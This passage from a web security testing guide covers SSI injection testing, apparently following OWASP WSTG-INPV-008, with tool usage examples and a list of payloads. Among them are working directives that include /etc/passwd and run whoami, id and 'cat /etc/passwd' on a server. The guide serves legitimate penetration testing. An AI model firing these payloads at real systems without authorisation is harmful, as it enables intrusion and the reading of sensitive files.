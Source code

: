       # HTTPie
      http "http://example.com/page?input==<!--#exec cmd=\"whoami\"-->"
      ```

- **Postman**: GUI tool for testing SSI injection in APIs or forms.
  - Download from [Postman](https://www.postman.com/downloads/).
  - Send payloads in query parameters or body.
  - **Tip**: Use Collections for batch testing.

- **Browser Developer Tools (Chrome/Firefox)**: Inspects responses to SSI payloads.
  - Access: Press `F12` or `Ctrl+Shift+I`.
  - Use Network tab to analyze responses and Elements tab for server output.
  - **Note**: Firefox’s 2025 network analysis improvements enhance response inspection.

- **Netcat (nc)**: Tests server responses for SSI injection.
  - Install on Linux:
    ```bash
    sudo apt install netcat
    ```
  - Install on Windows/Mac: Download from [nmap.org](https://nmap.org/ncat/).
  - Example:
    ```bash
    echo -e "GET /page?input=<!--#exec cmd=\"whoami\"--> HTTP/1.1\nHost: example.com\n\n" | nc example.com 80
    ```

## Testing Methodology

This methodology follows OWASP’s black-box and gray-box approaches for WSTG-INPV-008, testing SSI Injection vulnerabilities across input vectors, basic SSI injection, file inclusion, command execution, and conditional directive manipulation.

### Common SSI Injection Payloads

Below is a list of common SSI Injection payloads to test various server behaviors. Start with simple payloads and escalate based on responses. Use with caution in controlled environments to avoid unintended consequences.

- **Basic SSI Directives**:
  - `<!--#echo var="DATE_LOCAL" -->` (Displays server date)
  - `<!--#printenv -->` (Lists environment variables)
  - `<!--#config timefmt="%Y-%m-%d" -->` (Sets time format)

- **File Inclusion**:
  - `<!--#include file="config.txt" -->` (Includes local file)
  - `<!--#include virtual="/etc/passwd" -->` (Includes server file)

- **Command Execution**:
  - `<!--#exec cmd="whoami" -->` (Runs system command)
  - `<!--#exec cmd="cat /etc/passwd" -->` (Reads file via command)
  - `<!--#exec cmd="id" -->` (Displays user info)

- **Conditional Directives**:
  - `<!--#if expr="$QUERY_STRING = test" --><p>Success</p><!--#endif -->` (Tests condition)
  - `<!--#set var="test" value="malicious" -->` (Sets variable)
